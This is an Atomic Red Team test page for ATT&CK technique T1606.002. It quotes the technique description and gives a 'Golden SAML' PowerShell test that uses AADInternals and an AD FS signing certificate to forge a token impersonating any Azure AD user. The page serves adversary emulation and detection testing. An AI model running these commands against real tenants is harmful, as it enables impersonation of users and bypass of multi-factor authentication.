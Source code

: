 # T1606.002 - Forge Web Credentials: SAML token

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1606/002)

<blockquote>An adversary may forge SAML tokens with any permissions claims and lifetimes if they possess a valid SAML token-signing certificate.(Citation: Microsoft SolarWinds Steps) The default lifetime of a SAML token is one hour, but the validity period can be specified in the <code>NotOnOrAfter</code> value of the <code>conditions ...</code> element in a token. This value can be changed using the <code>AccessTokenLifetime</code> in a <code>LifetimeTokenPolicy</code>.(Citation: Microsoft SAML Token Lifetimes) Forged SAML tokens enable adversaries to authenticate across services that use SAML 2.0 as an SSO (single sign-on) mechanism.(Citation: Cyberark Golden SAML)

An adversary may utilize [Private Keys](https://attack.mitre.org/techniques/T1552/004) to compromise an organization's token-signing certificate to create forged SAML tokens. If the adversary has sufficient permissions to establish a new federation trust with their own Active Directory Federation Services (AD FS) server, they may instead generate their own trusted token-signing certificate.(Citation: Microsoft SolarWinds Customer Guidance) This differs from [Steal Application Access Token](https://attack.mitre.org/techniques/T1528) and other similar behaviors in that the tokens are new and forged by the adversary, rather than stolen or intercepted from legitimate users.

An adversary may gain administrative Azure AD privileges if a SAML token is forged which claims to represent a highly privileged account. This may lead to [Use Alternate Authentication Material](https://attack.mitre.org/techniques/T1550), which may bypass multi-factor and other authentication protection mechanisms.(Citation: Microsoft SolarWinds Customer Guidance)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Golden SAML](#atomic-test-1---golden-saml)

<br/>

## Atomic Test #1 - Golden SAML

Forge a "Golden SAML" token which allows to impersonate any Azure AD user, and authenticate to AADGraph (as a proof).
You will need the ADFS token signing certificate (see T1552.004 to export it).
More info here : https://o365blog.com/post/adfs/

**Supported Platforms:** Azure-ad

**auto_generated_guid:** b16a03bc-1089-4dcc-ad98-30fe8f3a2b31

#### Inputs:

| Name             | Description                                                                                                                                  | Type   | Default Value                           |
| ---------------- | -------------------------------------------------------------------------------------------------------------------------------------------- | ------ | --------------------------------------- |
| certificate_path | Token signing certificate path. See T1552.004 to export it                                                                                   | path   | .&#92;ADFS_signing.pfx                  |
| immutable_id     | ImmutableId of the targeted user. It can be obtained with AzureAD powershell module; $(Get-AzureADUser -SearchString "username").ImmutableId | string | aehgdqBTZV50DKQZmNJ8mg==                |
| issuer_uri       | Issuer URI of the ADFS service                                                                                                               | string | http://contoso.com/adfs/services/trust/ |

#### Attack Commands: Run with `powershell`!

```powershell
Import-Module AADInternals -Force
$saml = New-AADIntSAMLToken -ImmutableID "#{immutable_id}" -PfxFileName "#{certificate_path}" -Issuer "#{issuer_uri}"
$conn = Get-AADIntAccessTokenForAADGraph -SAMLToken $saml -SaveToCache
if ($conn) { Write-Host "`nSuccessfully connected as $($conn.User)" } else { Write-Host "`nThe connection failed" }
Write-Host "End of Golden SAML"
```

#### Dependencies: Run with `powershell`!

##### Description: AADInternals module must be installed.

##### Check Prereq Commands:

```powershell
if (Get-Module AADInternals) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
Install-Module -Name AADInternals -Force
```

<br/>
